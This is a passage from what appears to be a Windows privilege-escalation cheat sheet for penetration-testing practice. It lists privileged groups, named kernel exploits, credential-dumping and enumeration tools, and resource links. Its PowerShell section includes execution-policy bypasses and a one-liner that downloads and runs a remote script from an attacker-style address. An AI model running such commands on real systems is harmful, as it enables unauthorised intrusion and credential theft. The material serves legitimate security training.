 **Phase 5 - Last Resort:**
- Check for kernel exploits (risky)
- Look for DLL hijacking opportunities

### Common Privilege Groups

**High Value Groups:**
- Administrators (full system access)
- Backup Operators (can backup/restore files)
- Remote Desktop Users (RDP access)
- Remote Management Users (WinRM access)

### Kernel Exploits (Last Resort)

Only use kernel exploits as a last resort due to system crash risk:
- MS16-032 (Secondary Logon Handle)
- MS17-010 (EternalBlue)
- CVE-2020-0796 (SMBGhost)
- CVE-2021-1675 (PrintNightmare)

Always check systeminfo output against Windows Exploit Suggester.

### PowerShell Execution Policy Bypass

If PowerShell execution is restricted:
```powershell
powershell -ep bypass
powershell -ExecutionPolicy Bypass -File script.ps1
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/script.ps1')"
```

### Useful PowerShell Tools

**PowerUp.ps1** - Privilege escalation enumeration
**PowerView.ps1** - Active Directory enumeration
**Sherlock.ps1** - Exploit suggester
**Invoke-Mimikatz.ps1** - Credential dumping

### Resources
- PowerSploit Framework: https://github.com/PowerShellMafia/PowerSploit
- PEASS-ng WinPEAS: https://github.com/carlospolop/PEASS-ng
- HackTricks Windows PrivEsc: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
- PayloadsAllTheThings Windows: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- LOLBAS Project: https://lolbas-project.github.io/
- OSCP Secret Sauce (SweetPotato, Mimikatz): https://eins.li/posts/oscp-secret-sauce/
